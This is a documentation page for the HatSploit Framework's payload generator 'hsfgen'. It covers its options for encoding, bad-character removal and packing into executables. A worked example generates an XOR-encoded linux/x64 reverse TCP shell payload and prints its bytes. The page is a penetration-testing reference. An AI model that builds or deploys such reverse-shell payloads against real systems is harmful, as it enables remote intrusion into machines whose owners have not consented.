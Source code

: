 ```yaml
---
layout: default
title: Using hsfgen
parent: Getting started
nav_order: 9
---
```


HatSploit Framework has a native command-line payload generator called `hsfgen`. It is packaged by default with all other HatSploit utilities.

## Command-line Options

```
usage: hsfgen [-h] [-p PAYLOAD] [-e ENCODER] [--platform PLATFORM]
              [--arch ARCH] [-f FORMAT] [--formats] [--payloads] [--encoders]
              [--options option1=value1,option2=value2,...] [-i ITERATIONS]
              [-b BADCHARS] [--pack] [--implant] [-o OUTPUT] [-c CUSTOM]

Native HatSploit Framework advanced payload generator.

optional arguments:
  -h, --help            show this help message and exit
  -p PAYLOAD, --payload PAYLOAD
                        HatSploit payload.
  -e ENCODER, --encoder ENCODER
                        HatSploit encoder.
  --platform PLATFORM   Payload platform.
  --arch ARCH           Payload architecture
  -f FORMAT, --format FORMAT
                        Generate payload with custom format.
  --formats             List all formats.
  --payloads            List all payloads.
  --encoders            List all encoders.
  --options option1=value1,option2=value2,...
                        Add options to encoder/payload.
  -i ITERATIONS, --iterations ITERATIONS
                        Number of encoding iterations.
  -b BADCHARS, --badchars BADCHARS
                        Bad characters to omit (e.g. \x00).
  --pack                Pack payload as ELF, PE or Mach-O depending on
                        platform.
  --implant             Output implant instead of complete payload.
  -o OUTPUT, --output OUTPUT
                        Output file to write payload to.
  -c CUSTOM, --custom CUSTOM
                        Specify custom payloads path.
```

### Generate payload

Options `-p` and `-e` must be used to generate specific payload and encode it with the specific encoder.

* `-i`, `--iterations` - encode payload `N` times.
* `-b`, `--badchars` - omit bad characters duing the generation.
* `--options` - set options in payload and/or encoder.
* `--pack` - pack payload into executable file.
* `--implant` - generate only implant of the payload not the complete payload.
* `-f`, `--format` - select custom executable format.
* `-o`, `--output` - output result to the file.
* `-c`, `--custom` - specify custom directory with HatSploit payloads.

### Listing

* `--formats` - list all available executable formats (can be used with `--platform`).
* `--payloads` - list all available payloads (can be used with `--platform` and `--arch`).
* `--encoders` - list all available encoders (can be used with `--platform` and `--arch`).

## Examples

To generate simple `linux/x64/shell_reverse_tcp` payload and encode it with `x64/xor`:

```
hsfgen -p linux/x64/shell_reverse_tcp --options rhost=127.0.0.1,rport=8888 -e x64/xor
```

The output of this code will be:

```
[*] Attempting to generate linux/x64/shell_reverse_tcp...
[i] Payload will be encoded with x64/xor
[*] Writing raw payload...
00000000  48 31 c9 48 81 e9 b6 ff  ff ff 48 8d 05 ef ff ff |H1.H......H.....|
00000010  ff 48 bb 68 61 74 73 70  6c 36 34 48 31 58 27 48 |.H.hatspl64H1X'H|
00000020  2d f8 ff ff ff e2 f4 02  48 2c ea 1a 6e 69 5e 69 |-.......H,..ni^i|
00000030  3f 7b 76 38 fb 7e 8d 6a  61 56 cb b0 c4 34 5b 39 |?{v8.~.jaV...4[9|
00000040  29 fd 95 1a 7c 6c 5e 42  39 7b 76 1a 6f 68 7c 97 |)...|l^B9{v.oh|.|
00000050  af 1e 52 28 63 33 41 9e  0b 4f 2b e9 24 8d 1b 0a |..R(c3A..O+.$...|
00000060  08 1a 5c 03 04 36 67 20  e8 93 21 27 24 bf d2 67 |.....6g ..!'$..g|
00000070  64                                               |d               |
```

If you'd like to save it to the file call it with `-o`.

If you wish to pack it into `ELF` so it could be executed in the future, call `--pack`.
